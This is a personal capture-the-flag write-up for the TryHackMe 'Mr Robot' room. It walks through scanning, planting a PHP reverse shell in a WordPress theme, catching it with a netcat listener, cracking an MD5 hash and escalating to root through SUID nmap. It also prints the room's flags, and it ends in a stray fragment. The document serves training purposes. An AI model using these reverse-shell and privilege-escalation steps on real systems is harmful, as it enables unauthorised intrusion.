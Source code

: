 ```yaml
---
tags:
  - CTF
  - reverse
  - RevShell
---
```

----------------------
Link: https://tryhackme.com/r/room/mrrobot
write-ups:
1. https://youtu.be/FxeFGkRhR3Q?si=yI84qwF4P7MExMCc
2. https://medium.com/@DRX_Sicher/writeup-mr-robot-ctf-1baf5f20e6f4

----

# Preparing


#### 1 - doing the scan stuff

```bash
nmap -A {ip}
```

```bash
gobuster dir -u {ip} -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```

---
#### 2 - important directories 

`/license` , `/robot` , `login`

---
#### 3 - get to `robot`

you will find the first flag in the file text in the `robot` directory, and another doc file with a word list

----

#### 4 - Login-page

- Go and login in the `/login` directory with the password you will find in `/license` directory - and scroll down in the page to find it-
- Get to the appearance menu in word press and go to editor and open any templte and add the `php reverse shell code` from the following link and make sure to add  your `IP` and the port and go to the link of the php you edit it `{ip}/404.php`:
	https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- and listen with 
```bash
nc -lvnp 6969
```
- change your shell to a normal shell, BTW this thing already mentioned in the [[LinuxRoom-2.md]] 
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
- print this file ---> `password.raw-md5` and crack the `md5` in the file with john the ripper
```bash
echo "c3fcd3d76192e4007dfb496cca67e13b" | tee hash && john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
```
- and the flag is `822c73956184f694993bede3eb39f959`

-----

#### 5 -  Search for the root accessed binaries

- Find the binaries that have a root privileges  
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
```
- The hint on the site says one thing `nmap` and the `nmap` appears to have a root privileges, so what we want to do is to open an interactive shell to access the root directory of the machine from the `namp`
	- here is a link of a site to open an interactive shell, search with the name of the tool and the condition of your shell. the link --->
		https://gtfobins.github.io/gtfobins/nmap/
	- after that access the root directory `cd /root/` and take the keygit config --global user.name